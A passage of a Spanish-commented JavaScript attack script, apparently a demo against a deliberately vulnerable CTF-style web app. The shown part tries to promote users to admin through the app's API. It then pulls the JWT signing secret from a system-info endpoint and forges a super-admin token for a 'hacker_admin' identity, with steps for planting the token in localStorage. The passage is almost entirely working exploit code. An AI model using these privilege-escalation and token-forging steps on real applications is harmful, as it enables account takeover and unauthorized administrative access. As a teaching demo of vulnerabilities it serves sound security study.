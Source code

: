 ```javascript
        console.log(`❌ Error en auto-promoción: ${error.message}`);
      }
    } else {
      console.log("👑 Ya eres admin - probando promoción de otros usuarios");
      
      try {
        await api.updateUserRole(2, 'admin');
        console.log("✅ Usuario 2 promovido a admin");
      } catch (error) {
        console.log(`❌ Error promoviendo usuario: ${error.message}`);
      }
    }
  },
  
  async demonstrateJWTExploitation() {
    console.log("\n🎫 6. DEMOSTRANDO EXPLOTACIÓN DE JWT");
    console.log("───────────────────────────────────────────────────────────────");
    
    // Obtener secret del sistema
    try {
      const systemInfo = await api.getSystemInfo();
      const stolenSecret = systemInfo.secret_key;
      
      console.log(`🔑 Secret JWT robada: ${stolenSecret}`);
      
      // Crear token falso
      const fakeAdminData = {
        id: 9999,
        username: 'hacker_admin',
        email: 'hacker@evil.com',
        role: 'admin',
        profile: {
          fullName: 'Super Hacker Admin',
          department: 'Cybersecurity Breach'
        }
      };
      
      const fakeToken = api.createFakeToken(fakeAdminData);
      console.log("✅ Token falso de super-admin creado");
      console.log("🎭 Para usar: localStorage.setItem('token', fakeToken) y recarga la página");
      
      // Guardar para uso manual
      (window as any).fakeAdminToken = fakeToken;
      (window as any).fakeAdminData = fakeAdminData;
      
    } catch (error) {
      console.log(`❌ Error en explotación JWT: ${error.message}`);
    }
  }
};

// Ejecutar demostración completa
CFTVulnerabilityDemo.runCompleteDemo();
```

---